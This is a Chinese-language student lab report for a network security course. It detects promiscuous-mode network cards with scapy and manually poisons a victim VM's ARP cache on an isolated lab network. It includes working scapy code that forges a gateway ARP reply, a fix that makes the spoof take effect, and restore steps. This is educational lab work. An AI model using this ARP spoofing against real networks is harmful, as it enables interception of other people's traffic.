# 网络安全第四章实验报告  

### 网络拓扑结构  
  

|身份|虚拟机名称|网卡|IP地址|MAC地址|
|----|----|----|----|----|
|网关|DEBIAN-1|intnet1|172.16.111.1|08:00:27:40:bd:be / enp0s9|
|攻击者主机|KALI-attack|intnet1|172.16.111.134|08:00:27:80:8d:67 / eth0|
|受害者主机|KKK|intnet1|172.16.111.143|08:00:27:3a:97:3e / eth0|  

### 实验准备  

* 安装scapy  
在攻击者主机(KALI-attack)中安装scapy    
```
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```  
  

### 实验一 检测局域网中的异常终端  

1. 在受害者主机上检查网卡的「混杂模式」是否启用  

```
ip link show eth0
# 2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
#     link/ether 08:00:27:aa:ff:3e brd ff:ff:ff:ff:ff:ff
```  
  

2. 在攻击者主机上开启scapy  
  

3. 在 scapy 的交互式终端输入以下代码回车执行  
`pkt = promiscping("172.16.111.143")`  
  

4. 回到受害者主机上开启网卡的「混杂模式」  
`sudo ip link set eth0 promisc on`  
  

5. 回到攻击者主机上的 scapy 交互式终端继续执行命令，比较差异  
  

6. 在受害者主机上手动关闭网卡的「混杂模式」  
  

### 实验二 手工单步“毒化”目标主机的 ARP 缓存  

以下未特殊标记操作均作用于攻击者主机  

1. 获取当前局域网的网关 MAC 地址  
```  
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# ###[ Ethernet ]###
#   dst= ff:ff:ff:ff:ff:ff
#   src= 08:00:27:80:8d:67
#   type= ARP
# ###[ ARP ]###
#      hwtype= 0x1
#      ptype= IPv4
#      hwlen= None
#      plen= None
#      op= who-has
#      hwsrc= 08:00:27:80:8d:67
#      psrc= 172.16.111.134
#      hwdst= 00:00:00:00:00:00
#      pdst= 172.16.111.1

# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```  
  


2. 伪造网关的 ARP 响应包发送给受害者主机  
```  
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.143", hwdst="08:00:27:80:8d:67")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```
  

3. 在受害者主机上查看 ARP 缓存  
  

4. 恢复受害者主机的 ARP 缓存记录  
```
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:40:bd:be", pdst="172.16.111.143", hwdst="08:00:27:3a:97:3e")
sendp(restorepkt1, count=100, inter=0.2)
```  
  


5. 在受害者主机上“刷新”网关 ARP 记录  
`ping 172.16.111.1` 在受害者主机上ping网关  
`ip neigh` 再次查看ARP缓存  
  

### 问题及解决  
1. 攻击者主机使用scapy报错  
  
错误原因：权限不够  
解决方案：`sudo scapy`以高权限运行scapy  

2. ARP缓存不及时更新  
攻击者主机发送伪造ARP响应时，受害者主机缓存不更新  
错误原因：伪造包仅显示发送，但可能并未成功  
解决方案：在构造的ARP包前增加Ether()  
  

#### 参考资料  
[网络安全教材第四章实验](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)  
[2020-ns-public-LyuLumos](https://github.com/CUCCS/2020-ns-public-LyuLumos/blob/ch0x04/ch0x04/%E7%BD%91%E7%BB%9C%E7%9B%91%E5%90%AC.md)  


